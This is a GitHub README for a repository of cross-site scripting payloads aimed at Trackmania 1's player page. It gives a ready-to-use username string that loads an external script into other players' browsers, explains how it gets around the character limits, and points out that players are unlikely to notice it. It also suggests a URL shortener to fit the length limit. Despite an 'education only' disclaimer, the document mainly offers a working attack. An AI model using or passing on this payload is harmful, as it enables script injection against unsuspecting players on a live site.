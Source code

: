 # 🔗 trackmania-xss-payloads
Repo of XSS payloads you can try when using Trackmania 1's playerpage
> [!WARNING]
> I am not responsible for any damage done with the knowledge from this repo. It's a proof of concept which is created only for education and research purposes. By using this code you accept that you will **NOT** use this method in malicious purposes and that [kvbaxi](https://github.com/kvbaxi) takes no responsibility for misusage of this content.
## 💻 Put this in your name to make payload
```
$l["><script/src="//payload_link_here"></script>]username
```
## ❓ How does it work?
Trackmania 1's playerpage is very insecure and old (due to the game not being updated), hence in time there were more and more security flaws found. One of them is this exact [XSS](https://wikipedia.org/wiki/Cross-Site-Scripting). It works by escaping the site's link formatting code and executing own code with newly appended `<script>` tag.  
  
One of the cons of this method is that you have limited set of characters you can use and length. You cannot use unescaped spaces as they will be escaped into HTML encoding (`" " -> &nbsp;`) so that is why I chose to use `/` instead as it converts `/` correctly as it was space.  
  
In result you get clean payload **almost** invisible to human eye. The main change you'll notice when using this payload on your name is that on stats page you'll see `">` on the beginning of your name. You can't prevent that without wasting another characters. In trackmania though, your payload is **completely invisible** on first look. Player has to hover over your name to see the suspicious payload in the place of link.  

Due to need in saving characters you cannot use the GitHub Pages link I have for my repo as it will be too long. I recommend using shortener that will make it as **short as possible**.
